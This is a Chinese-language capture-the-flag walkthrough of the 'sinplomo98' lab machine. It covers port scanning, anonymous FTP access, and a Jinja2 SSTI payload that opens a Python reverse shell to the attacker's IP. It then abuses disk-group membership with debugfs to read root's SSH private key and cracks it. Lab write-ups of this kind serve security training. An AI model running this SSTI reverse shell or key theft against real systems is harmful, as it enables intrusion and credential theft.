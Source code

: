 # thl_sinplomo98笔记

**靶机**：https://thehackerslabs.com/sinplomo98/
**难度**：高级（AVANZADO）
**攻击ip**:192.168.205.141
**靶机ip**:192.168.205.157

# 1.端口扫描

首先使用`nmap`扫描目标机器的开放端口：

```
nmap 192.168.205.157
```

![image](https://github.com/user-attachments/assets/35d20d5f-2eb5-461b-a2aa-e2ff6bcdff3f)

通过扫描，发现目标机器上开放了多个端口，其中21端口（FTP服务）和5000端口（Web服务）我比较感兴趣。
先看21 ftp服务

# 2. FTP服务探测

```
ftp 192.168.205.157

#使用匿名登录
anonymous 
anonymous

ls
mget supermegaultraimportantebro.txt
cat supermegaultraimportantebro.txt
```

![image](https://github.com/user-attachments/assets/0a02e140-b0df-406b-bd17-2251aa43f2ea)
呵！就不[狗头]

# 3. Web服务探测

接下来，访问目标的80端口，进行模糊测试，但未能发现什么有用的信息。继续探测5000端口，发现是Web服务。

看看源代码有没有提示

![image](https://github.com/user-attachments/assets/ff805305-85d4-4c31-8d64-2dc135498bc4)

根据页面的提示，加上路径测试。

![image](https://github.com/user-attachments/assets/fb34ab9b-90d7-4373-beb6-04948a83a1f0)

# 4.SSTI利用

经测试，确认该Web服务存在Server-Side Template Injection（SSTI）漏洞
[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)
尝试执行基本的模板语法：

```
{{8*8}}
```

通过以下payload执行远程命令：

```
{% for x in [].__class__.__base__.__subclasses__() %}
    {% if x.__init__ is defined and x.__init__.__globals__ is defined and 'exec' in x.__init__.__globals__['__builtins__']['exec'].__name__ %}
        {{ x.__init__.__globals__['__builtins__']['exec']('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.205.141",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")')}}
    {% endif %}
{% endfor %}

```

# 5. 权限提升

使用Linpeas脚本进行权限提升检查，发现目标系统属于disk组并存在SUID提取漏洞。

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe#disk-group](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe#disk-group)

```
#查看系统分区和文件系统信息
df -h
#使用debugfs查看文件
debugfs /dev/sda1
debugfs: cat /root/.ssh/id_rsa
```

通过拿到id_rsa文件后，使用John进行爆破，最终获取root权限。
